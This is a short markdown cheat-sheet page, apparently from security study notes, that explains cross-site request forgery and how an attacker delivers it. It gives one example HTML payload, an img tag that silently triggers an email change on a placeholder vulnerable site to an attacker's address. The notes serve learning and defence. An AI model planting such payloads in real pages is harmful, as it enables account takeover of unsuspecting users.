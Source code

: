 # ⭕ Cross-site request forgery (CSRF)

Allows an attacker to induce users to perform actions that they do not intend to perform

### <mark style="color:red;">Deliver a CSRF Exploit</mark>

### <mark style="color:orange;">**Reflected XSS**</mark>

Attacker will place the malicious HTML onto a web site that they control

### <mark style="color:orange;">GET method</mark>

**Example**

```html
<img src="https://vulnerable-website.com/email/change?email=attacker@evil-user.net"> 
```

